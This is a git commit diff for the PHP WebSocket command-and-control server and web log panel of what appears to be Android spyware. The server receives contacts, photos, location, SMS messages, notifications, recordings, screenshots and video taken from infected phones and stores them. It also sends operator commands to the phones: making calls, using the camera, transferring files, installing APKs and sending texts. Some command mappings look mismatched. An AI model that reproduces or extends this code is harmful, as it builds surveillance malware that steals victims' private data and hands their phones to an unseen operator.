

fixed log polling on c2-server

Changed region(s): [[0.0625, 0.7289, 0.9062, 0.82]]

diff --git a/Server/web socket/src/C2WebSocket.php b/Server/web socket/src/C2WebSocket.php
@@ -24,33 +24,57 @@ class C2WebSocket implements MessageComponentInterface {
     public function onOpen(ConnectionInterface $conn)
     {
         $this->clients->attach($conn);
-        if (isset($this->server))
-            $this->server->send(time() . " Connection estbalished by " . $conn->resourceId);
+        if (isset($this->server)) {
+            $currentDateTime = date('Y-m-d H:i:s');
+            $response = [
+                "color" => "btn-success",
+                "message" => $currentDateTime . ": Connection estbalished by " . $conn->resourceId
+            ];
+            $this->server->send(json_encode($response));
+        }
     }
 
     public function onMessage(ConnectionInterface $conn, MessageInterface $msg)
     {
-        $data = json_decode($msg->getContents());
-        var_dump($msg);
+        $data = json_decode($msg->getPayload());
 
-        if ($data['type'] === 'client')
+        if ($data === null)
+            return;
+
+        if ($data->type === "js-server") {
+            $this->server = $conn;
+            $currentDateTime = date('Y-m-d H:i:s');
+            $response = [
+                "color" => "text-success",
+                "message" => $currentDateTime . ": Connection established successfully"
+            ];
+            $conn->send(json_encode($response));
+        } elseif ($data->type === 'client')
             $this->clientConnection($conn, $data);
-        
-        if ($data['type'] === 'server')
+        elseif ($data->type === 'server')
             $this->serverConnection($conn, $data);
 
-        if ($data === "js server")
-            $this->server = $conn;
-
-        if (isset($this->server))
-            $this->server->send(time() . " " . $data);
+        if (isset($this->server)) {
+            $currentDateTime = date('Y-m-d H:i:s');
+            $response = [
+                "color" => "text-light",
+                "message" => $currentDateTime . ": " . json_encode($data)
+            ];
+            $this->server->send(json_encode($response));
+        }
     }
 
     public function onClose(ConnectionInterface $conn)
     {
         $this->clients->detach($conn);
-        if (isset($this->server))
-            $this->server->send(time() . " Connection closed by " . $conn->resourceId);
+        if (isset($this->server)) {
+            $currentDateTime = date('Y-m-d H:i:s');
+            $response = [
+                "color" => "text-danger",
+                "message" => $currentDateTime . ": Connection closed by " . $conn->resourceId
+            ];
+            $this->server->send(json_encode($response));
+        }
     }
 
     public function onError(ConnectionInterface $conn, \Exception $e)
@@ -62,63 +86,63 @@ class C2WebSocket implements MessageComponentInterface {
      * Handle client connections
      * 
      * @param ConnectionInterface $conn
-     * @param array $data
+     * @param $data
      */
-    private function clientConnection(ConnectionInterface $conn, array $data): void
+    private function clientConnection(ConnectionInterface $conn, $data): void
     {
-        $clientID = $data['id'];
+        $clientID = $data->id;
         $this->updateClientWebSocketIDinDatabase($clientID, $conn->resourceId); //???????
 
         switch ($data['res']) {
             case "contact":
                 $query = "INSERT INTO CONTACT(client_id, name, number) VALUES(?, ?, ?)";
-                $name = base64_decode($data['name']);
-                $number = base64_decode($data['number']);
+                $name = base64_decode($data->name);
+                $number = base64_decode($data->number);
                 $this->database->insert($query, [$clientID, $name, $number]);
                 break;
             case "image":
                 $query = "INSERT INTO IMAGE(client_id, filename, timestamp) VALUES(?, ?, ?)";
-                $filename = base64_decode($data['filename']);
-                $timestamp = $data['timestamp'];
+                $filename = base64_decode($data->filename);
+                $timestamp = $data->timestamp;
                 $this->database->insert($query, [$clientID, $filename, $timestamp]);
                 break;
             case "location":
                 $query = "INSERT INTO LOCATION(client_id, latitude, longitude altitude) VALUES(?, ?, ?, ?)";
-                $latitude = base64_decode($data['latitude']);
-                $longitude = base64_decode($data['longitude']);
-                $altitude = base64_decode($data['altitude']);
+                $latitude = base64_decode($data->latitude);
+                $longitude = base64_decode($data->longitude);
+                $altitude = base64_decode($data->altitude);
                 $this->database->insert($query, [$clientID, $latitude, $longitude, $altitude]);
                 break;
             case "message":
                 $query = "INSERT INTO MESSAGE(client_id, sender, content, timestamp) VALUES(?, ?, ?, ?)";
-                $sender = base64_decode($data['sender']);
-                $content = base64_decode($data['content']);
-                $timestamp = $data['timestamp'];
+                $sender = base64_decode($data->sender);
+                $content = base64_decode($data->content);
+                $timestamp = $data->timestamp;
                 $this->database->insert($query, [$sender, $content, $timestamp]);
                 break;
             case "notification":
                 $query = "INSERT INTO NOTIFICATION(client_id, sender, content, timestamp) VALUES(?, ?, ?, ?)";
-                $sender = base64_decode($data['sender']);
-                $content = base64_decode($data['content']);
-                $timestamp = $data['timestamp'];
+                $sender = base64_decode($data->sender);
+                $content = base64_decode($data->content);
+                $timestamp = $data->timestamp;
                 $this->database->insert($query, [$clientID, $sender, $content, $timestamp]);
                 break;
             case "recording":
                 $query = "INSERT INTO RECORDING(client_id, filename, timestamp) VALUES(?, ?, ?)";
-                $filename = base64_decode($data['filename']);
-                $timestamp = $data['timestamp'];
+                $filename = base64_decode($data->filename);
+                $timestamp = $data->timestamp;
                 $this->database->insert($query, [$clientID, $filename, $timestamp]);
                 break;
             case "screesnshot":
                 $query = "INSERT INTO SCREENSHOT(client_id, filename, timestamp) VALUES(?, ?, ?)";
-                $filename = base64_decode($data['filename']);
-                $timestamp = $data['timestamp'];
+                $filename = base64_decode($data->filename);
+                $timestamp = $data->timestamp;
                 $this->database->insert($query, [$clientID, $filename, $timestamp]);
                 break;
             case "video":
                 $query = "INSERT INTO VIDEO(client_id, filename, timestamp) VALUES(?, ?, ?)";
-                $filename = base64_decode($data['filename']);
-                $timestamp = $data['timestamp'];
+                $filename = base64_decode($data->filename);
+                $timestamp = $data->timestamp;
                 $this->database->insert($query, [$clientID, $filename, $timestamp]);
                 break;
             default:
@@ -130,11 +154,11 @@ class C2WebSocket implements MessageComponentInterface {
      * Handle connections from the server
      * 
      * @param ConnectionInterface $conn
-     * @param array $data
+     * @param $data
      */
-    private function serverConnection(ConnectionInterface $conn, array $data): void
+    private function serverConnection(ConnectionInterface $conn, $data): void
     {
-        $clientWebSocketID = $data['web_socket_id'];
+        $clientWebSocketID = $data->web_socket_id;
         $client = $this->getClient($clientWebSocketID);
         
         if (is_null($client))
@@ -143,11 +167,11 @@ class C2WebSocket implements MessageComponentInterface {
         $json = null;
 
         if ($this->isClientConnected($clientWebSocketID)) {
-            switch ($data['cmd']) {
+            switch ($data->cmd) {
                 case "CALL":
                     $json = json_encode([
                         "cmd" => "CALL",
-                        "number" => $data['number'],
+                        "number" => $data->number,
                     ]);
                     break;
                 case "CAMERA_BACK":
@@ -159,27 +183,27 @@ class C2WebSocket implements MessageComponentInterface {
                 case "DELETE_CONTACT":
                     $json = json_encode([
                         "cmd" => "DOWNLOAD_FILE",
-                        "name" => $data['name'],
-                        "number" => $data['number']
+                        "name" => $data->name,
+                        "number" => $data->number
                     ]);
                     break;
                 case "DOWNLOAD_FILE":
                     $json = json_encode([
                         "cmd" => "DOWNLOAD_FILE",
-                        "url" => $data['url'],
-                        "filename" => $data['filename']
+                        "url" => $data->url,
+                        "filename" => $data->filename
                     ]);
                     break;
                 case "INSTALL_APK":
                     $json = json_encode([
                         "cmd" => "INSTALL_APK",
-                        "path" => $data['path']
+                        "path" => $data->path
                     ]);
                     break;
                 case "LAUNCH_APP":
                     $json = json_encode([
                         "cmd" => "LAUNCH_APP",
-                        "package" => $data['package']
+                        "package" => $data->package
                     ]);
                     break;
                 case "LIST_INSTALLED_APPS":
@@ -188,7 +212,7 @@ class C2WebSocket implements MessageComponentInterface {
                 case "LIST_FILES":
                     $json = json_encode([
                         "cmd" => "VIDEO",
-                        "path" => $data['path']
+                        "path" => $data->path
                     ]);
                     break;
                 case "LOCATION":
@@ -203,15 +227,15 @@ class C2WebSocket implements MessageComponentInterface {
                 case "TEXT":
                     $json = json_encode([
                         "cmd" => "WRITE_CONTACT",
-                        "number" => $data['number'],
-                        "message" => $data['message']
+                        "number" => $data->number,
+                        "message" => $data->message
                     ]);
                     break;
                 case "UPLOAD_FILE":
                     $json = json_encode([
                         "cmd" => "WRITE_CONTACT",
-                        "path" => $data['path'],
-                        "url" => $data['url']
+                        "path" => $data->path,
+                        "url" => $data->url
                     ]);
                     break;
                 case "VIDEO":
@@ -220,8 +244,8 @@ class C2WebSocket implements MessageComponentInterface {
                 case "WRITE_CONTACT":
                     $json = json_encode([
                         "cmd" => "WRITE_CONTACT",
-                        "name" => $data['name'],
-                        "number" => $data['number']
+                        "name" => $data->name,
+                        "number" => $data->number
                     ]);
                     break;
                 default;

diff --git a/Server/c2-server/src/View/home.php b/Server/c2-server/src/View/home.php
@@ -49,24 +49,48 @@
 </div>
 
 <div style="overflow-x:auto;width:100%;white-space: normal;height: 150px;" class="container dark-box">
-    <div id="logs" class="box-body log-class" style="font-family: 'Courier Prime', monospace;">
+    <div id="logs" class="row box-body log-class" style="font-family: 'Courier Prime', monospace;">
         
     </div>
 </div>
 
 
-<script src="/src/View/assets/js/initiate-datatables.js"></script>
-
 <?php require_once __DIR__ . "/footer.php"; ?>
 
-<script>
+<script defer>
     // Establish WebSocket connection
     const ws = new WebSocket('ws://localhost:8080');
-    ws.send("js server")
+    
+     // Listen for the WebSocket connection to open
+     ws.addEventListener('open', function (event) {
+        console.log('WebSocket connection opened.');
+
+        // Data to send
+        var data = {"type" : "js-server"};
+
+        // Send data when the connection is open
+        ws.send(JSON.stringify(data));
+
+        console.log(event);
+        const logElement = document.getElementById('logs');
+        var message = JSON.parse(event.data)
+        logElement.innerHTML += `<div class="col-12 ${message['color']}">${message['message']}</div>`;
+    });
 
     // Display received messages in the log
-    ws.onmessage = function(event) {
+    ws.addEventListener('message', function(event) {
+        console.log(event);
         const logElement = document.getElementById('logs');
-        logElement.innerHTML += `<p>${event.data}</p>`;
-    };
-  </script>
+        var message = JSON.parse(event.data)
+        logElement.innerHTML += `<div class="col-12 ${message['color']}">${message['message']}</div>`;
+    });
+    
+
+    // Handle errors
+    ws.addEventListener('error', function(event) {
+        console.log(event);
+        const logElement = document.getElementById('logs');
+        var message = JSON.parse(event.data)
+        logElement.innerHTML += `<div class="col-12 ${message['color']}">${message['message']}</div>`;
+    });
+</script>

diff --git a/Server/c2-server/src/View/footer.php b/Server/c2-server/src/View/footer.php
@@ -5,8 +5,7 @@
 
     <script src="/src/View/assets/vendor/jquery/jquery.min.js"></script>
     <script src="/src/View/assets/vendor/bootstrap/js/bootstrap.bundle.min.js"></script>
-    <script src="/src/View/assets/vendor/datatables/datatables.min.js"></script>
-    
+    <script src="/src/View/assets/vendor/datatables/datatables.min.js"></script> 
 </body>
 
 </html>

diff --git a/Server/c2-server/src/View/error.php b/Server/c2-server/src/View/error.php
@@ -1,0 +1,3 @@
+<?php require __DIR__ . "/header.php"; ?>
+
+<?php require __DIR__ . "/footer.php"; ?>
